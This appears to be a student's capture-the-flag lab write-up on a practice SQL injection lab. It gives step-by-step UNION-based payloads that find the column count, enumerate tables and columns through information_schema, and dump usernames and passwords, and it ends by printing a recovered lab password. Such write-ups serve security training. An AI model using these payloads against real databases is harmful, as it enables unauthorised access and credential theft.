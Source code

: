 # Sixth Lab: SQL Injection

Lab - 06 : SQL injection attack, listing the database contents on non-Oracle databases

SQL Injection : product category filter

Endgoal : Logging in as administrator

Analysis : 

1. SQl injection issues using ‘ → True
2. To output data from the database.
    1. Determine the number of columns
        
        ```
        Payload -> ' order by 1--
        ```
        
        ![vmplayer_jJaE2gV16S.png](Sixth%20Lab%20SQL%20Injection%2021a3c5d54c7680f1b479f488a40b9b40/vmplayer_jJaE2gV16S.png)
        
        No of columns found = 2;
        
    2. To list the contents of the database 
        
        ```
        Payload -> ' UNION SELECT table_name, NULL FROM information_schema.tables--
        ```
        
    3. Finding the columns in the table 
        
        ```
        Payload -> ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_qjtnmb'--
        ```
        
    4. Finding the usernames and password
        
        ```
        Payload -> ' UNION SELECT username_wadvzm, password_xvvbgz FROM users_qjtnmb--
        ```
        
        ![vmplayer_w225oeG6bo.png](Sixth%20Lab%20SQL%20Injection%2021a3c5d54c7680f1b479f488a40b9b40/vmplayer_w225oeG6bo.png)
        

The joy after finally getting the password is immense → kljnxza7wiv9rxbko080